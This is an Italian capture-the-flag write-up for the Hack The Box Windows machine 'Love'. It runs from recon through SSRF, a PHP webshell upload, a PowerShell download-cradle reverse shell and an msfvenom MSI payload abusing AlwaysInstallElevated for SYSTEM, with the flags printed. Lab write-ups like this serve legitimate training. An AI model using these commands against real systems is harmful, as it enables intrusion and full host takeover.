

# Love
* **POINTS**: 0
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Windows
* **RATING**: 4.4

## 1. Recon
```shell
└─$ nmap -Pn -sC -sV -oA nmap/initial 10.10.10.239
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 05:28 EDT
Nmap scan report for 10.10.10.239
Host is up (0.14s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '10.10.14.16' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)                                         
|_http-title: 403 Forbidden                                                                                         
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27                                               
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :                                                            
SF-Port3306-TCP:V=7.92%I=7%D=7/12%Time=62CD3EE6%P=x86_64-pc-linux-gnu%r(NU                                          
SF:LL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.16'\x20is\x20not\x20allow                                          
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");                                                        
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows                
                                                                                                                    
Host script results:                                                                                                
| smb2-time:                                                                                                        
|   date: 2022-07-12T09:51:07                                                                                       
|_  start_date: N/A                                                                                                 
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-12T02:51:08-07:00
|_clock-skew: mean: 2h41m42s, deviation: 4h02m32s, median: 21m40s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.17 seconds
```

### 1.2 SMB - TCP 445
#
Provo login da anonimo, ma non va:

```shell
└─$ smbmap -H 10.10.10.239 -u asd -p asd
[!] Authentication error on 10.10.10.239

└─$ smbclient -N -L //10.10.10.239
session setup failed: NT_STATUS_ACCESS_DENIED
```

### 1.3 MySQL - TCP 3306
#
Provo a connettermi al DB

```shell
└─$ mysql -h 10.10.10.239
ERROR 1130 (HY000): Host '10.10.14.16' is not allowed to connect to this MariaDB server
```

### 1.4 HTTPS - TCP 443
#
Aprendo la pagina, troviamo un warning da parte di Firefox:

<p align="center">
  
</p>

Quindi vediamo il certificato:

<p align="center">
  
</p>

Ok... aggiungiamo `love.htb` e `staging.love.htb` in */etc/hosts*, ma provando a ricaricare la pagina non funziona ugualmente.  

### 1.5 HTTPS - TCP 5000
#

Non funziona la pagina

<p align="center">
  
</p>

### 1.6 HTTP - TCP 80
#
La pagina si riferisce ad un sistema di votazione:

<p align="center">
  
</p>

Provando le solite password (come anche SQLInj) non ci fa entrare e ci restituisce che l'ID non è stato trovato... facendo del bruteforce potremmo capire gli ID corretti ma allo stato attuale non serve.

Proviamo a vedere se c'è qualche altro endopoint con *gobuster*:

```shell
└─$ gobuster dir -u http://love.htb:80/ -w ~/Scaricati/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://love.htb:80/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/asd/Scaricati/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/12 06:16:51 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess            (Status: 403) [Size: 298]
/.hta                 (Status: 403) [Size: 298]
/ADMIN                (Status: 301) [Size: 329] [--> http://love.htb/ADMIN/]
/Admin                (Status: 301) [Size: 329] [--> http://love.htb/Admin/]
/Images               (Status: 301) [Size: 330] [--> http://love.htb/Images/]
/admin                (Status: 301) [Size: 329] [--> http://love.htb/admin/] 
/aux                  (Status: 403) [Size: 298]                              
/cgi-bin/             (Status: 403) [Size: 298]                              
/com1                 (Status: 403) [Size: 298]                              
/com2                 (Status: 403) [Size: 298]                              
/com3                 (Status: 403) [Size: 298]                              
/com4                 (Status: 403) [Size: 298]                              
/con                  (Status: 403) [Size: 298]                              
/dist                 (Status: 301) [Size: 328] [--> http://love.htb/dist/]  
/examples             (Status: 503) [Size: 398]                              
/images               (Status: 301) [Size: 330] [--> http://love.htb/images/]
/includes             (Status: 301) [Size: 332] [--> http://love.htb/includes/]
/index.php            (Status: 200) [Size: 4388]                               
/licenses             (Status: 403) [Size: 417]                                
/lpt2                 (Status: 403) [Size: 298]                                
/lpt1                 (Status: 403) [Size: 298]                                
/nul                  (Status: 403) [Size: 298]                                
/phpmyadmin           (Status: 403) [Size: 298]                                
/plugins              (Status: 301) [Size: 331] [--> http://love.htb/plugins/] 
/prn                  (Status: 403) [Size: 298]                                
/server-status        (Status: 403) [Size: 417]                                
/server-info          (Status: 403) [Size: 417]                                
/webalizer            (Status: 403) [Size: 298]                                
                                                                               
===============================================================
2022/07/12 06:17:59 Finished
===============================================================
```

Bene... abbiamo l'endpoint */admin* che ci restituisce il login per l'admin:

<p align="center">
  
</p>

Provando di nuovo le solite password (come anche SQLInj), non va.

### 1.7 staging.love.htb - TCP 80
#


Cliccando su *Demo*:

<p align="center">
  
</p>

Provo quindi ad aprire un server python in locale e vedo se la richiesta mi arriva e, in caso affermativo, vedo soprattutto l'output:

<p align="center">
  
</p>

Bene, ho la possibilità di fare le richieste !

## 2. SSRF
Il fatto che il server possa fare delle richieste, mi ha fatto pensare ad una possibbile SSRF con l'idea di far effettuare una richiesta a se stesso per farci restituire le informazioni che noi non sappiamo.

### 2.1 PoC
#
Inviando la richiesta a `http://127.0.0.1:80` ci restituisce la pagina di login in precedenza incontrata:

<p align="center">
  
</p>

Quindi inviamo la richiesta sulla porta 5000:

<p align="center">
  
</p>


## 3. RCE
Una volta che abbiamo le credenziali, accedendo alla pagina di admin precedentemente trovata, abbiamo la seguente dashboard:


Cliccando in alto a destra sull'utente, una pulsante cattura la mia attenzione:

<p align="center">
  
</p>

Cliccando abbiamo la possibilità di fare l'upload dell'immagine di profilo:

<p align="center">
  
</p>

### 3.1 PoC
#
Carico un file a caso e viene caricata senza fare alcun check sul formato:

<p align="center">
  
</p>

Carico quindi una webshell PHP:

```php
<?php system($_REQUEST['cmd']); ?>
```

Eseguiamo il comando `whoami`:

<p align="center">
  
</p>

Abbiamo bisogno di una reverse shell !

## 4 Shell
Per avere la shell utilizziamo la [reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) di [nishang](https://github.com/samratashok/nishang) aggiungendo la seguente riga: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 9999`

Nell'URL inseriamo il seguente payload: `http://love.htb/images/cmd.php?cmd=Powershell "iex(new-object net.webclient).downloadstring('http://10.10.14.16:1234/Invoke-PowerShellTcp.ps1')"`

In *C:\Users\Phoebe\Desktop* abbiamo la user flag: `d9bbe2cdb572ead40d0c6d507cafb97b`

## 5. Shell as SYSTEM

Carichiamo [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS): `PS C:\ProgramData> powershell wget http://10.10.14.16:3210/winPEASany.exe -outfile wp.exe`

Ci sono varie cose interessanti; prima fra tutti abbiamo una history della PowerShell però non ci da informazioni utili

```shell
[+] PowerShell Settings                                                                                                                                                                                                             
    PowerShell v2 Version: 2.0                                                                                                                                                                                                               
    PowerShell v5 Version: 5.1.19041.1                                                                                                                                                                                                       
    PowerShell Core Version:                                                                                                                                                                                                                 
    Transcription Settings:                                                                                                                                                                                                                  
    Module Logging Settings:                                                                                                                                                                                                                 
    Scriptblock Logging Settings:                                                                                                                                                                                                            
    PS history file: C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                                                                                                                         
    PS history size: 51B  
```

Ma la cosa più importate, trovata dopo un pò di ricerca, è il fatto che `AlwaysInstallElevated` è settata ad 1:

```shell
[+] Checking AlwaysInstallElevated
[?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!  
```

**Background**  
  Se questi 2 registri sono abilitati (il valore è 0x1), gli utenti con qualsiasi privilegio possono installare (eseguire) file *.msi come NT AUTHORITY\SYSTEM. 

Utilizzo *msfvenom* per creare un file *.msi*: `msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f msi -o rev.msi`

Carichiamo sulla macchina host: `powershell wget http://10.10.14.16:3210/rev.msi -outfile rev.msi`

Quindi avviamo il file con il comando: `msiexec /quiet /qn /i rev.msi`, mentre rimaniamo in ascolto il locale:

```shell
└─$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.239 59730
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

In *C:\Users\Administrator\Desktop* abbiamo la root flag: `1a4f94f6e819fa2a2aae175db3106ba9`